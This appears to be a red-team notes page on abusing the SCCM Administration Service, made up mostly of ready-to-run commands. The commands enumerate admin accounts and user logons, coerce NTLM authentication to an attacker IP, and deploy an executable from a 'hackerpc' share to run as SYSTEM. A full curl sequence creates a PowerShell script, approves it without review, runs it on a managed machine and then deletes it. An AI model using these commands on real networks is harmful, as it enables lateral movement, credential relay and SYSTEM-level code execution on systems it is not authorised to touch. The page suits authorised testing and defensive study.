 ```yaml
---
title: SCCM Admin
---
```


The [[notes/ad/sccm]] Administration Service is a REST API that exposes all features of SCCM over HTTP(S).

List accounts used by SCCM.

=== "[[notes/tools/sharpsccm]]"
    ~~~ bat
    .\SharpSCCM.exe get class-instances SMS_Admin
    .\SharpSCCM.exe get class-instances SMS_SCI_Reserved
    ~~~

Find computers where a specific user was logged on.

=== "[[notes/tools/sccmhunter]]"
    ~~~
    ❯ sccmhunter admin -debug -u sccmadm -p 'passw0rd' -ip sccmss01.corp.local
    () (\) >> get lastlogon jdoeadm
    ~~~

=== "[[notes/tools/sharpsccm]]"
    ~~~ bat
    .\SharpSCCM.exe get primary-users -u jdoeadm
    .\SharpSCCM.exe get devices -p LastLogonTimestamp -p LastLogonUserName -p NetbiosName -u jdoeadm
    ~~~

Retrieve recent logon events from all clients.

=== "[[notes/tools/sharpsccm]]"
    ~~~ bat
    .\SharpSCCM.exe invoke admin-service -i SMS00001 -q "EventLog('Security',8h) | where EventID == 4624 | order by DateTime desc" -j
    ~~~

Deploy an application to [[notes/ad/ntlm-relay-from-smb|coerce NTLM authentication via SMB]] from the primary user of a given computer ([source](http://web.archive.org/web/20221122215934/https://scribe.rip/@specterops/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867)).
This can take several minutes.

=== "[[notes/tools/sharpsccm]]"
    ~~~ bat
    .\SharpSCCM.exe exec -d ws01 -r 192.168.57.130
    ~~~

Deploy an application to execute a binary from a SMB share in system context on a SCCM-managed computer.

=== "[[notes/tools/sharpsccm]]"
    ~~~ bat
    .\SharpSCCM.exe exec -d ws01 -p \\hackerpc.corp.local\share\malware.exe --run-as-system
    ~~~

Execute a PowerShell script as system on a SCCM-managed computer without an application deployment.

=== "[[notes/tools/sccmhunter]]"
    ~~~
    ❯ sccmhunter show -smb
    ...
    |    | Hostname            | Site Code | Signing Status | Site Server | Distribution Point | WSUS  | MSSQL |
    ...
    |  1 | sccmss01.corp.local | CRP       | False          | True        | True               | False | False |
    ...
    ❯ echo 'whoami /all' > ./test.ps1
    ❯ sccmhunter admin -debug -u sccmadm -p 'passw0rd' -ip sccmss01.corp.local
    () (\) >> get device ws01
    ...
    Name: ws01
    ResourceId: 12345678
    ...
    () (\) >> interact 12345678
    (12345678) (\) >> script ./test.ps1
    ...
    Benutzername        SID
    =================== ========
    nt-authority\\system S-1-5-18
    ...
    ~~~

=== "[[notes/tools/prox-ez]] + curl"
    Start a HTTP proxy to handle Kerberos authentication.

    ~~~ bash
    prox-ez -p 1080 -dc corp.local/sccmadm:'passw0rd' -k
    ~~~

    Send the requests to execute the script and retrieve its output.

    ~~~ bash
    proxy='http://localhost:1080'
    endpoint='https://sccmss01.corp.local/AdminService'
    hostname='ws01'
    guid="$(uuidgen -r)"
    device="$(curl -sS -k -x "$proxy" -H 'Content-Type: application/json' "$endpoint/v1.0/Device" -G --data-urlencode "\$filter=Name eq '$hostname'" | jq -r '.value[].MachineId')"
    jq -n --arg code "$(cat ./test.ps1 | base64 -w0)" --arg guid "$guid" '{"Script":$code,"ScriptGuid":$guid,"ScriptName":"ConfigMgrTemp","ScriptVersion":"1"}' | curl -sS -k -x "$proxy" -H 'Content-Type: application/json' "$endpoint/wmi/SMS_Scripts.CreateScripts" -d @- | jq -r .ReturnValue
    curl -sS -k -x "$proxy" -H 'Content-Type: application/json' "$endpoint/wmi/SMS_Scripts/$guid/AdminService.UpdateApprovalState" -d '{"ApprovalState":"3"}' | jq -r .ReturnValue
    operation="$(jq -n --arg guid "$guid" '{"ScriptGuid":$guid}' | curl -sS -k -x "$proxy" -H 'Content-Type: application/json' "$endpoint/v1.0/Device($device)/AdminService.RunScript" -d @- | jq -r .value)"
    curl -sS -k -x "$proxy" -H 'Content-Type: application/json' "$endpoint/v1.0/Device($device)/AdminService.ScriptResult(OperationId=$operation)" | jq -r '.value.Result[].ScriptOutput'
    curl -sS -k -x "$proxy" -H 'Content-Type: application/json' "$endpoint/wmi/SMS_Scripts('$guid')" -X DELETE
    ~~~

Other tools:

- [MalSCCM](https://labs.nettitude.com/blog/introducing-malsccm/)
- [ConfigMgr.AdminService](https://github.com/AdamGrossTX/ConfigMgr.AdminService/), PowerShell scripts for interacting with the REST API

References:

- [SCCM Hierarchy Takeover](http://web.archive.org/web/20240305225949/https://scribe.rip/@specterops/posts.specterops.io/sccm-hierarchy-takeover-41929c61e087), there is no security boundary between SCCM sites in the same hierarchy
- [Lateral Movement without Lateral Movement (Brought to you by ConfigMgr)](http://web.archive.org/web/20230809074353/https://scribe.rip/@dlomellini/lateral-movement-without-lateral-movement-brought-to-you-by-configmgr-9b79b04634c7), abusing CMPivot
